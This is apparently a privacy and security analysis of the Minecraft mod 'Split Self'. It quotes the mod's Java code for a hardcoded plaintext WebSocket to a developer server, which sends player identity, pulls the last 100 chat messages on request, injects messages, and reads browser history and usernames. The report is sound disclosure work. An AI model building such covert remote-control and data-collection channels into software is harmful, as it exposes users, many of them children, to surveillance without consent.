

# Security and Privacy Analysis of Split Self

> **Date:** 18 September 2026

## Non-Technical Summary

While watching a livestream playing Minecraft with Split Self, I noticed behaviour that appeared too context-sensitive to be entirely hardcoded and too immediate to be generated by an LLM. This mod follows a growing trend of out-of-game-interaction recently established by The Broken Script. The mod can do lots of spooky, but fairly passive things, such as:
* opening an RPC connection to the user's Discord and print their name in the chat,
* triggering screen shakers and other visual effects, including moderately fast flashing images, on the host,
* print the host user account name in the chat
* get browser history, select the most visited, and print them into the chat.

When skimming the mods repository to see how the mod was giving such personal yet fast responses to the streamer, I found a DISCLAIMER.md file which is linked on the mod's Modrinth page. This page contains a singular concerning line at the very bottom.
``` 
- The mod connects to an external websocket which is used, 
  AND ONLY USED  for the developer to interact and mess with 
  players with a limited about of tools.
```

This prompted me to take a closer look, and I found the following explicit functionalities that paint a worrying security picture:
* automatically establish a connection to the developer's server/IP address over HTTP.
* automatically send Minecraft username and UUID to that server;
* send arbitrary text into the player's Minecraft chat in a singleplayer game;
* send the server the contents of thr last 100 messages in the chat buffer when requested.
* listen to server requests to trigger predefined mod events;
* trigger an event, randomly or remotely, that prints the currently running recording/livestream software process to the chat


Because the mod separately records Minecraft chat into a buffer that can be requested by the external server, this raises significant concerns. The developer can remotely trigger events that print things to the chat (i.e. Discord username, browser history snippets, etc) and can then request those chats be sent back to the server.

Additionally, the developer can send whatever messages they want to the players chat. Combining this functionality with the above, this mod effectively establishes two-way communication with ANY player of this mod that is connected to the Internet, and any messages sent by players in, say, a LAN serre may also beb intercepted and sent back to the servre. 

This raises even larger concerns when paired with the fact that Minecraft is primarily a children's game, and a large proportion of people within the Minecraft horror community are children. Combined with this mod's ability to detect recording and livestreaming software and send that back to the server, its reasonable to deduce that the mod developer is, in at least one instance, manually manipulating the experiences of players that intend to share their experiences on YouTube or other social media platforms. At best this is for the developer's idea of 'fun', and at worst is for engagement baiting and manipulation of how people see the mod.

The backend server is not open source, so I cannot independently determine what information is displayed to its operators, what information is stored, how long it is retained, or who has access to it. The mod author should immediately make the backend portion of this mod opensource.

It is my biggest concern and belief that the disclosure in and around this mod is nowhere near adequate for the scale of permissions it has and the functionality it executes.

The commit that introduced this remote functionality appears to be commit
```8a05755673b7648daf1ec7290966b0121f27f463``` which contains the singular message "so many changes bro" on July 29th 2026.


This analysis covers the publicly available source code at:
* https://github.com/Pryzmm/Split-Self
---

# 2. External WebSocket Connection

The mod establishes a WebSocket connection to:

```
ws://144.126.158.38/ws
```

The connection uses `ws://` rather than encrypted `wss://`, and so this connection is unsecure.

`HTTPHandler.java, Line 23`
```java
public static void start(MinecraftClient c) {
        client = c;
        clientID = c.getGameProfile().getId().toString();
        try {
            socket = new WebSocketHook(new URI("ws://144.126.158.38/ws"));
            socket.connect();
        } catch (URISyntaxException e) {
            e.printStackTrace();
        }
    }
```

The source contains the comment:
```java
// IT'S NOT A BACKDOOR I SWEAR *cough* aqualoco *cough*
// trolling friends and streamers is just fun :3
```

This comment isn't evidence of malicious behaviour, but is very relevant given the mod's functioanlity and appears to highlight that the author does know that these capabilites approach that of a backdoor, even if it's in jest.

---

# 3. Player Identification

When the WebSocket connection opens, the client registers itself with the external server.
This means that the external service can associate an active connection with a specific Minecraft account. What the backend does with this information is TBD.
The registration message contains:

* Minecraft UUID;
* Minecraft username.

`WebSocketHook.java, Line 17`
```java
@Override
    public void onOpen(ServerHandshake handshake) {
        disconnected = false;
        SplitSelf.LOGGER.info("HTTP: Connected to server");
        JsonObject registerMsg = new JsonObject();
        registerMsg.addProperty("type", "register");
        registerMsg.addProperty("client_id", HTTPHandler.clientID);
        registerMsg.addProperty("username", HTTPHandler.client.getGameProfile().getName());
        send(registerMsg.toString());
    }
```

---

# 4. Chat Collection

The mod creates a 100 member linked list that functions as a chat buffer. It then injects into Minecraft's chat HUD using the `ChatMixin` class and copies messages into `ChatLogBuffer`. When the buffer is full, the message at the front of the list is removed to make room for another, meaning that the most recent 100 messages are always collected.

`ChatLogBuffer.java`
```java
public class ChatLogBuffer {
    private static final int MAX_MESSAGES = 100;
    private static final LinkedList<String> messages = new LinkedList<>();

    public static synchronized void add(String message) {
        messages.addFirst(message);
        if (messages.size() > MAX_MESSAGES) {
            messages.removeLast();
        }
    }

    public static synchronized List<String> getRecent() {
        return new LinkedList<>(messages);
    }
}
```

ChatMixin.java
```java
@Mixin(ChatHud.class)
public class ChatMixin {

    @Inject(method = "addMessage(Lnet/minecraft/text/Text;Lnet/minecraft/network/message/MessageSignatureData;Lnet/minecraft/client/gui/hud/MessageIndicator;)V", at = @At("HEAD"))
    public void onChat(Text message, MessageSignatureData signatureData, MessageIndicator indicator, CallbackInfo ci) {
        ChatLogBuffer.add(message.getString());
    }

}
```

---

# 5. Server Commands

The following commands sent by the server are handled by the client:

| Command              | Behaviour                                                                                                            |
| -------------------- | -------------------------------------------------------------------------------------------------------------------- |
| `message:<text>`     | Displays server-supplied text inside the player's local Minecraft chat. `{user}` is replaced with the player's name. |
| `get_chats`          | Returns recent buffered chat messages to the external server.                                                        |
| `event:<EVENT_NAME>` | Requests a predefined mod event through the Minecraft server.                                                        |
| `event:null`         | Requests a randomly selected event.                                                                                  |
| `party`              | Requests the normal music/colour/confetti effect.                                                                    |
| `caramelldansen`     | Requests the alternate party effect.                                                                                 |

There is a check that will stop events firing if the command is sent to a targetted player within a Minecraft server if they are not the host. However, if they are a host then all clients connected to the server (with the mod) will recieve and process the events. This only applies to the `event` message.

---

# 6. Remote Retrieval of Chat

The external server can send:

```text
get_chats
```

When this command is received, the client serialises the buffered messages and returns them through the WebSocket:

```java
else if (message.equals("get_chats")) {
    JsonObject response = new JsonObject();
    response.addProperty("type", "chats");

    JsonArray arr = new JsonArray();

    for (String line : ChatLogBuffer.getRecent()) {
        arr.add(line);
    }

    response.add("messages", arr);
    HTTPHandler.socket.send(response.toString());
}
```

Therefore, the external backend has a mechanism to request the last 100 chats messages from the client at any time the server chooses. It is unknown whether this is on-command for a particular user at a given time or if it is automatic. This allows the server to not only read the chats, but potentially collect them.

---

# 6. Remote Messages to the Player

The backend also supports:

```text
message:<text>
```

This allows server-supplied text to be displayed directly inside the player's Minecraft chat. Combined with `get_chats`, this creates a two-way communication mechanism that operates completely outside of Minecraft's normal chat system directly with the operator of the backend.

Relevant code:

```java
if (message.startsWith("message:")) {
    String text = message.substring(8);
    message = text.replace(
        "{user}",
        player.getName().getString()
    );

    player.sendMessage(Text.literal(message));
}
```

---


# 7. Access to Local Information

The mod contains functionality involving information obtained from the local machine.

## 8.1 Operating-system username

For example:

```java
System.getProperty("user.name")
```

This value can subsequently be exposed in the caht.

---

## 8.2 Discord username

The mod initialises Discord RPC and records the username supplied by Discord:

```java
RPC.init("1512578067590152192", new RPCEventHandler() {
    @Override
    public void ready(User user) {
        discordUsername = user.getUsername();
    }
}, false);
```

This can then be exposed in the chat.
---

## 8.3 Browser history

The mod also contains functionality for reading browser-history information:

```java
List<BrowserHistoryReader.HistoryEntry> history =
    BrowserHistoryReader.getHistory();

List<BrowserHistoryReader.HistoryEntry> mostVisited =
    BrowserHistoryReader.getMostVisited();
```

The resulting information can be displayed to the player through Minecraft chat, including details derived from:

* the most recent website;
* a frequently visited website;
* visit counts;
* browser information.

For example:

```java
String[] siteName =
    history.getFirst().title.split(" - ");

String siteURL =
    history.getFirst()
        .url
        .replaceFirst("https://", "")
        .split("/")[0];
```

And:

```java
player.sendMessage(
    Text.translatable(
        "events.splitself.browser.displayPopularSite",
        player.getName().getString(),
        mostVisitedSiteURL
    ),
    false
);
```

---

# 9. Potential Data-Flow Concern

The combination of these systems is particularly important.

The following components independently exist:

1. predefined events can access local information;
2. some events print that information into Minecraft chat;
3. Minecraft chat is copied into `ChatLogBuffer`;
4. the external server can request `ChatLogBuffer`.

This creates a potential situation where the server can purposefully request an event to happen that exposes personal information in the chat and then request that chat message to be sent home to the server.

It is unknown whether this is happening.

---

# 10. Observed Interactive Behaviour

During a livestream I was watching, messages appeared that seemed aware of what was occurring on stream and in-chat, with what appeared to be the developer later sending messages freely to reference the chat and engage with the stream.

The client source establishes that a remote server has the technical ability to send arbitrary messages into a connected player's singleplayer Minecraft chat.

I can't establish from the source:

* which individual sent any particular message;
* whether messages were sent using a web dashboard;
* who has access to that dashboard;
* whether the streamer's subsequent player/server interactions were discovered through the mod or by happenign across the stream;
* whether usernames and streaming statuses are actively monitored by backend operators.

---

# 11. Backend Login Interface

Navigating to the server address in a normal browser exposes a login interface.




The existence of the login page suggests that the backend has an authenticated web based interface, but its functionality cannot be determined without a login.

---

# 12. Closed Backend

The external backend appears not to be included in the public source repository.

This prevents independent verification of several important questions:

* What information about connected clients is visible?
* Are usernames and UUIDs displayed?
* Are chat messages persisted?
* Are messages logged?
* What is the retention period?
* Who has access?
* What authentication and authorisation controls exist?
* Can individual clients be selected?
* Is local information collected or stored centrally?
* Is data shared with any third parties?

---

# 13. Disclosure Concerns

The issue is not that the mod contains horror effects or interacts with the user's computer. That ship has sailed with previous mods.

The concern is the combination of:

* external network communication;
* player identification;
* remote chat retrieval;
* remote message injection;
* access to locally derived information;
* limited visibility into backend operation.

Users should be clearly informed about these behaviours before installing or running the mod.

In particular, documentation should explicitly state:

* what information leaves the computer;
* when it is transmitted;
* why it is transmitted;
* where it is transmitted;
* whether it is retained;
* who can access it;
* how the functionality can be disabled.

---

# 14. Findings

## Confirmed from public source

The public source demonstrates that:

* the mod connects to an external WebSocket server;
* the connection uses plaintext `ws://`;
* the client sends its Minecraft UUID;
* the client sends its Minecraft username;
* 100 most recent chat messages are buffered;
* the backend can request the chat buffer and recieve the last 100 messages;
* the backend can inject messages into local Minecraft chat;
* the backend can request predefined events;
* the mod can obtain the local operating-system username and send it to the server;
* the mod can obtain and send a Discord username to the server;

## Not established

The available evidence does not establish:

* who operates the backend at any particular moment;
* exactly who can access it;
* whether chat data is permanently stored;
* whether browser-history information has actually been remotely collected from specific users;
---

# 15. Recommendations

At minimum, I believe the project should:

1. Clearly disclose all externally transmitted information.
2. Clearly disclose remote chat retrieval.
3. Clearly disclose remote message injection.
4. Document the external backend, its purpose, and open-source it.
5. Publish a privacy policy describing storage and retention.
6. Use encrypted transport.
7. Require explicit opt-in for functionality involving local/private information.
8. Prevent locally derived information from entering remotely retrievable chat buffers.
9. Consider publishing the backend source code so that the full system can be audited.
10. Mod-hosting platforms must review whether this behaviour complies with their malware and privacy policies. 

---

# 16. Responsible Disclosure

I am publishing this analysis because the relevant behaviour is present in publicly available source code and because I believe users should understand what information the mod is capable of transmitting.

If any factual claim in this report is incorrect, I am happy to correct it when presented with technical evidence.

This report is intended to document the software's observable behaviour and capabilities, not to make unsupported claims about the intentions of its developers.

---